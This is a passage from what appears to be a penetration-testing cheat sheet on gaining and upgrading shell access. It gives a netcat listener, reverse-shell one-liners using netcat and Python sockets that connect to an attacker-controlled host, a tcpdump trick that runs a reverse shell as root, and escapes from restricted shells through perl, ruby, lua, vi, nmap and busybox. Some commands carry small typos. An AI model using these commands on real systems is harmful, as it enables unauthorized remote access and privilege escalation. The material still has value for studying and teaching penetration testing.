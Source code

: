 -   Netcat Shell Listener  

    `nc -nlvp 4444`

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
         
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        
        (hint: sudo -l to see what you can run)
        
     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:
         
               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux
         
      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

      `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`


      From within vi: `:!bash`
     or
     
      `:set shell=/bin/bash:shell`
     
      From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump
      
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

-   Pen test monkey PHP reverse shell  

    Bash

	Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
